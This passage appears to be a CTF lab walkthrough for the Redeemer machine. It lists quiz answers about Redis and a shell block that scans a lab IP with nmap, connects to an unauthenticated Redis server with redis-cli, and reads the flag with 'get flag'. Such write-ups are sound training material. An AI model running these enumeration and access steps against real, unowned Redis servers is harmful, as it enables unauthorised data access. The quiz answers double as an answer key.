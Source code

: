 	7. Whats Version of Redis Server used in target machine? `5.0.7`
	8. Which command we use to select desire database in Redis? `select`
	9. How many key are present inside the database with index 0? `4`
	10. Which command used to list All Keys in Database? `keys *`
	11. Get Flag of Redeemer machine
		1. ![[Pasted image 20240719183123.png]]
*****
```sh
sudo nmap -T5 -A -p- -v --min-rate=500 10.129.236.86
sudo apt update ; sudo apt install redis-tools
redis-cli -h
redis-cli -h 10.129.236.86

10.129.236.86:6379> INFO
10.129.236.86:6379> select 0
10.129.236.86:6379> keys *
10.129.236.86:6379> get flag
```
### !
